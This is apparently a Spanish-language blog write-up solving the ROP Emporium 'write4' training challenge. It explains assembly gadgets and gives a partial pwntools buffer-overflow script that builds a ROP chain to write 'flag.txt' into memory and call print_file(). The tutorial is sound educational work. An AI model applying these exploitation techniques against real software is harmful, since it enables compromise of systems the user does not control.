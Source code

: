 ```yaml
---
title: Solución ropemporium write4 
date: 2024-01-11
categories: [rop, 64bits, bof]
tags: [64bits, bof, rop] #minúsculas-
---
```

En este post, resolveré **Ropemporium Write4**. Empezamos como siempre leyendo el enunciado de la [web de Ropemporium](https://ropemporium.com/challenge/write4.html).



## ENUNCIADO
**Cord cut** 
On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

**Differences**
Things have been rearranged a little for this challenge; the printing logic has been moved into a separate library in an attempt to mitigate the alternate solution that is possible in the callme challenge. The stack smash also takes place in a function within that library, but don't worry this will have no effect on your ROP chain.

**Important!**
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

**Read/Write**
Hopefully you've realised that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

# Información extraída
Una vez leído el enunciado, sacamos la siguiente información: la cadena "/bin/cat flag.txt" no está presente en el binario. Para resolverlo, nos indica que hay una función `print_file()` que nos permite pasar argumentos para ver la bandera. En este desafío, no utilizaremos la funcionalidad integrada, sino que usaremos gadgets para permitir escribir valores en la memoria, como `mov [reg], reg`.

![ROP Write4](/assets/img/rop/write4.png)

Empezaremos por examinar las zonas en las que tenemos permisos de lectura y escritura (rw) utilizando radare. Abrimos el binario con radare y ejecutamos `iS` para ver qué zonas podemos escribir.

![ROP Write4](/assets/img/rop/wr.png)

Buscaremos ahora un gadget que nos permita hacer lo que se indica en el enunciado con `mov`.

![ROP Write4](/assets/img/rop/gadgetmov.png)

Hablemos un poco sobre ensamblador, ya que es fundamental para entender lo que estamos buscando. Un `mov` en ensamblador es mover datos de un lugar de la memoria o entre registros. Un ejemplo para entenderlo:
```assembly
mov eax, ebx     ; Copiar el valor en el registro ebx al registro eax
mov [ecx], edx   ; Almacenar el valor en el registro edx en la dirección de memoria apuntada por ecx
mov edx, 0x42    ; Asignar el valor inmediato 0x42 al registro edx
```

Ahora, sabiendo qué es **mov**, nos falta saber qué es **pop**. Se utiliza para extraer un valor de la pila (desapilar) y almacenarlo en el destino correspondiente. Ejemplos:

```assembly
pop eax         ; Desapilar un valor de la pila y almacenarlo en el registro eax
pop ebx         ; Desapilar otro valor de la pila y almacenarlo en el registro ebx
pop dword [esp] ; Desapilar un valor y almacenarlo en la dirección de memoria apuntada por esp
```
Ahora que conocemos la función de **pop** en cargar registros, busquemos gadgets de **pop** de la siguiente manera:
![](/assets/img/rop/pop.png)

Después de buscar **gadgets**, seleccionaremos los siguientes:
```
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```

Veamos cómo se implementa en el script.
```
#/usr/bin/python3
from pwn import process, p64, log

shell = process("./write4")

offset = 40
junk = b"A" * offset

rw = p64(0x600df0)

pop_r14_r15 = p64(0x400690)
mov_r14_r15 = p64(0x400628)

payload  = b""
payload += junk
payload += pop_r14_r15 + rw + b"flag.txt"
payload += mov_r14_r15

shell.sendlineafter(b"> ", payload)

flag = shell.recvline_contains(b"ROPE").decode()
log.info(f"Flag: {flag}")
```

Hasta ahora, tenemos el script. Lo que falta es la dirección de la función que recibirá el parámetro. Para obtener las direcciones que nos faltan, utilizaremos radare y Ropgadget. La dirección de **pop rdi** **;** **ret** la obtenemos filtrando con **pop**, como hicimos en unos pasos anteriores.

0x0000000000400693 : pop rdi ; ret

En la siguiente imagen, se puede observar cómo obtenemos la dirección de la función **print_file()** que se menciona en el enunciado.
![](/assets/img/rop/printfunct.png)

Por lo tanto, el exploit final quedaría así.

# Exploit
![](/assets/img/rop/explcall.png)